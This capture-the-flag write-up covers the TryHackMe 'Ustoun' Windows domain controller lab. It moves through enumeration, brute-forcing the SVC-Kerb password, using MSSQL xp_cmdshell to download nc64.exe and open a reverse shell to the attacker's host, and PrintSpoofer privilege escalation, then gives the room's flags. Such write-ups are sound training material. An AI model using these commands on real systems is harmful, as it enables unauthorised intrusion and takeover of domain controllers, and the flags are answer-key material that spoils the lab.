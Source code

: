 USTOUN
======

# Basic Enumeration 

Using nmap to scan alive ports and services `-Pn` because 
it's windows machine

`nmap --min-rate 300 -Pn -A -oN initial ustoun.thm`


```
PORT     STATE SERVICE        VERSION
53/tcp   open  domain         Simple DNS Plus
88/tcp   open  kerberos-sec   Microsoft Windows Kerberos (server time: 2021-05-17 04:53:58Z)
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
389/tcp  open  ldap           Microsoft Windows Active Directory LDAP (Domain: ustoun.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http     Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap           Microsoft Windows Active Directory LDAP (Domain: ustoun.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: DC01
|   NetBIOS_Domain_Name: DC01
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: ustoun.local
|   DNS_Computer_Name: DC.ustoun.local
|   DNS_Tree_Name: ustoun.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-05-17T04:55:06+00:00
| ssl-cert: Subject: commonName=DC.ustoun.local
| Not valid before: 2021-01-31T19:39:34
|_Not valid after:  2021-08-02T19:39:34
|_ssl-date: 2021-05-17T04:55:15+00:00; +55s from scanner time.
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 54s, deviation: 0s, median: 54s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-17T04:55:09
|_  start_date: N/A
```

# USER FLAG

SMB is running now scan for if we can read or write to any share

`smbmap -H ustoun.thm -u anonymous`

![smbmap-scan1](/Images/ustoun/smbmap-scan1.png)

IPC$ share is readable so we can enumerate users.

`lookupsid.py anonymous@ustoun.thm`

![lookupsid](/Images/ustoun/lookupsid.png)

Edit list and put users into list for furthur enumeration

```
cat userlist.txt


Administrator
Guest
krbtgt
DC$
SVC-Kerb
```

There are lot of usefull tools in impacket, using tool named `GetNPUsers.py` we gonna look for any available hashes.
unfortunatly we won't find any hashes. 

I try to Bruteforce all users together it take alot time for,
im to bruteforce user `krbtgt` and `SVC-Kerb` separatly.


`crackmapexec smb ustoun.thm -u 'SVC-Kerb' -p /opt/rockyou.txt` 

![crackmapexec](/Images/ustoun/crackmapexec.png)

With this creds i checked available SMB for any file but no luck.

Lets see if same password used in other services also, lets try to access mssql

`mssqlclient.py ustoun.local/SVC-Kerb:superman@ustoun.thm`

login is success, after some reserach found out we can execute command using `EXEC xp_cmdshell` with that help we can get stable shell.

![mssql](/Images/ustoun/mssql.png)

Download and upload nc.exe and get shell.
**[NC](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)**

```
+ sudo python3 -m http.server 80

+ SQL> EXEC xp_cmdshell 'mkdir C:\munaz'

+ SQL> EXEC xp_cmdshell 'powershell.exe -c curl http://$IP/nc64.exe -o C:\munaz\nc64.exe'

+ SQL> EXEC xp_cmdshell 'C:\munaz\nc64.exe -e cmd $IP 443'
```

![upload](/Images/ustoun/upload.png)

make lister and execute the nc.

![nc-shell](/Images/ustoun/nc-shell.png)

# ROOT FLAG

We got shell but we do not have enough permission to read `user.txt` so we need to escalate privilege 

![user-flag](/Images/ustoun/userflag.png)

Lets see what privilege we have using this command `whoami /priv`

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have **SeImpersonatePrivilege** permission, using [PrintSpoofer](https://github.com/dievus/printspoofer) we can escalate privilege

`powershell.exe -c curl http://$IP/PrintSpoofer.exe -o C:\munaz\PrintSpoofer.exe`

using above command upload it then execute it with this command give to root access.

`PrintSpoofer.exe -i -c cmd`

![root-flag](/Images/ustoun/rootflag.png)

# Flags

+ THM{MSSQL_IS_COOL}

+ THM{I_L1kE_gPoS}
